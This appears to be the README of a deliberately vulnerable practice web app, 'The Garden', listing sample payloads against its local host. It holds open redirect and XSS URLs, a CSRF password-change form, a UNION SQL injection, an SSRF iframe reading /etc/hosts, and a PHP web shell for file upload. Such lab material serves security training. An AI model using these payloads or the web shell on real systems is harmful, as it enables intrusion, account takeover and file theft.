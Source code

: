 ## About The Garden

It's vulnerable by purpose.


## Open Redirect

http://thegarden.local.net/login?r=http://10degres.net and log in  
http://thegarden.local.net/?r=http://10degres.net and log out  

## Information disclosure

- 

## IDOR

- 

## XSS

http://thegarden.local.net/login?r=111%27%22--%3E%3Csvg/onload=prompt()%3E111 not authenticated
http://thegarden.local.net/dashboard?r=111%27%22--%3E%3Csvg/onload=prompt()%3E111 authenticated

http://thegarden.local.net/?q=111%27%22--%3E%3Csvg/onload=prompt()%3E111

http://thegarden.local.net/reset-password/111?email=111%27%22--%3E%3Csvg/onload=prompt()%3E111 not authenticated


## CSRF

Profile / Change Password:
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://thegarden.local.net/change-password" method="POST">
      <input type="hidden" name="password" value="evilpassword" />
      <input type="hidden" name="password&#95;confirmation" value="evilpassword" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


## SQL injection

http://thegarden.local.net/api/orders/29%27%20union%20select%20null,null,null,null,null,null,null,null,null,null,null,null,null,null,null%20order%20by%20id%23  

## SSRF

generate PDF with order->address: 111<iframe src='file:///etc/hosts'></iframe>222

## File upload

Profile picture:
<?php echo shell_exec($_REQUEST['cmd']); ?>

